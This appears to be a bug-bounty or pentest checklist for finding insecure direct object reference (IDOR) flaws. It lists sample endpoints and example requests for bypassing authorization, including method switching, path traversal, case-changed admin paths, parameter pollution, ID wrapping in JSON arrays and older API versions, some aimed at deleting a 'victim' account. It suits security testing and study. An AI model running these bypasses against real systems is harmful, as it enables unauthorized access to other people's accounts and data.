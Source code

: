 
## Goal:
Identify locations where user-controllable object references (IDs, usernames, tokens, filenames, etc.) are used without proper authorization checks.

---

## User & Account References
- [ ] `/profile?id=1234`
- [ ] `/user/1234/settings`
- [ ] `/users/username123`
- [ ] `POST /update_email { "user_id": 4321 }`
- [ ] `/account/view?uid=1002`
- [ ] `/avatar/user123.png`
- [ ] `/auth/verify?user=me@example.com`
- [ ] Mobile app endpoints: `GET /api/v2/user/me`
- [ ] Changing `user_id` in JWT payload
- [ ] `/api/users/1234/password/change`

---

## Files & Resources
- [ ] `/files/download/1234`
- [ ] `/documents/5678/view`
- [ ] `/images/uploads/avatar_4321.jpg`
- [ ] `/pdfs/statement?id=9876`
- [ ] `/invoices/1009.pdf`
- [ ] Download endpoint: `GET /download?id=report_final`
- [ ] Shared links: `/file?id=abcdef123456`
- [ ] `/api/files/filename.ext`
- [ ] Upload preview endpoints with `file_id`
- [ ] `/backup.zip` with `file=param`

---

## Messaging & Communication
- [ ] `/messages?id=4532`
- [ ] `/api/chat/room/908`
- [ ] `GET /api/messages/thread?id=1001`
- [ ] Changing thread/message ID in body payload
- [ ] `/api/conversations/user/100`
- [ ] `PUT /message/update?id=458`
- [ ] `/notifications/view?id=222`
- [ ] `/support/tickets?id=3111`
- [ ] `/email?id=sent_email_123`
- [ ] `/feedback/view?id=9009`

---

## Orders, Payments & Cart Items
- [ ] `/orders/view?id=9999`
- [ ] `/api/cart/item/123`
- [ ] `/checkout?id=order001`
- [ ] `POST /cancel_order { "order_id": "ORD-101" }`
- [ ] `/invoices?id=inv-9090`
- [ ] `/payment/status?txn_id=abc123`
- [ ] `/subscription/edit?id=sub102`
- [ ] `/download_invoice?uid=1002`
- [ ] `/refund?id=trans_002`
- [ ] `/api/receipts/view/receipt_101`

---

## Admin & Multi-Tenant Misconfigurations
- [ ] `/admin/users?id=basic_user_id`
- [ ] `/tenant/data?org_id=ACME001`
- [ ] `/api/clients?id=clientXYZ`
- [ ] `/dashboard?client_id=1122`
- [ ] `/reports/view?id=report_id`
- [ ] `/departments/edit?id=3`
- [ ] `/project/manage?id=projectA`
- [ ] `/api/internal/users/list?uid=abc123`
- [ ] `/team/edit_member?user=guest01`
- [ ] `/audit/logs?id=some_other_user`

---

## Testing Notes
- [ ] Test for both **GET** and **POST** parameters.
- [ ] Fuzz numeric IDs (`+1`, `-1`, `9999`), UUIDs, usernames, slugs, emails.
- [ ] Use **two user accounts** for differential testing.
- [ ] Always check **response data leakage**, access controls, or state changes.
- [ ] Look out for **mass assignment** or **forced browsing**.

---
Base Steps:
```bash
1. Create two accounts if possible or else enumerate users first. 
2. Check if the endpoint is private or public and does it contains any kind of id param.
3. Try changing the param value to some other user and see if does anything to their account.
4. Done !!
```

[ ]
[ ] image profilie
[ ] delete acount 
[ ] infromation acount
[ ] VIEW & DELETE & Create api_key
[ ] allows to read any comment
[ ] change price
[ ] chnage the coin from dollar to uaro
[ ] Try decode the ID, if the ID encoded using md5,base64,etc
```html
GET /GetUser/dmljdGltQG1haWwuY29t
[...]
```

[ ] change HTTP method
```bash
GET /users/delete/victim_id  ->403
POST /users/delete/victim_id ->200
```

[ ] Try replacing parameter names
```bash
Instead of this:
GET /api/albums?album_id=<album id>

Try This:
GET /api/albums?account_id=<account id>

Tip: There is a Burp extension called Paramalyzer which will help with this by remembering all the parameters you have passed to a host.
```

[ ] Path Traversal
```bash
POST /users/delete/victim_id          ->403
POST /users/delete/my_id/..victim_id  ->200
```

[ ] change request content-type
```bash
Content-Type: application/xml ->
Content-Type: application/json
```

[ ] swap non-numeric with numeric id
```bash
GET /file?id=90djbkdbkdbd29dd
GET /file?id=302
```

[ ] Missing Function Level Acess Control 
```bash
GET /admin/profile ->401
GET /Admin/profile ->200
GET /ADMIN/profile ->200
GET /aDmin/profile ->200
GET /adMin/profile ->200
GET /admIn/profile ->200
GET /admiN/profile ->200
```

[ ]send wildcard instead of an id
```bash
GET /api/users/user_id ->
GET /api/users/*
```

[ ] Never ignore encoded/hashed ID
```bash
for hashed ID ,create multiple accounts and understand the ppattern application users to allot an iD
```

[ ] Google Dorking/public form
```bash
search all the endpoints having ID which the search engine may have already indexed
```

[ ] Bruteforce Hidden HTTP  parameters
```bash
use tools like arjun , paramminer 
```

[ ] Bypass object level authorization Add parameter onto the endpoit if not present by defualt
```bash
GET /api_v1/messages ->200
GET /api_v1/messages?user_id=victim_uuid ->200
```

[ ] HTTP Parameter POllution Give mult value for same parameter
```bash
GET /api_v1/messages?user_id=attacker_id&user_id=victim_id
GET /api_v1/messages?user_id=victim_id&user_id=attacker_id
```

[ ] change file type
```bash
GET /user_data/2341        -> 401
GET /user_data/2341.json   -> 200
GET /user_data/2341.xml    -> 200
GET /user_data/2341.config -> 200
GET /user_data/2341.txt    -> 200
```

[ ] json parameter pollution
```bash
{"userid":1234,"userid":2542}
```

[ ] Wrap the ID with an array in the body
```bash
{"userid":123} ->401
{"userid":[123]} ->200
```

[ ] wrap the id with a json object
```bash
{"userid":123} ->401
{"userid":{"userid":123}} ->200
```

[ ] Test an outdata API version 
```bash
GET /v3/users_data/1234 ->401
GET /v1/users_data/1234 ->200
```

[ ] If the website using graphql, try to find IDOR using graphql!
```bash
GET /graphql
[...]
```
```html
GET /graphql.php?query=
[...]
```
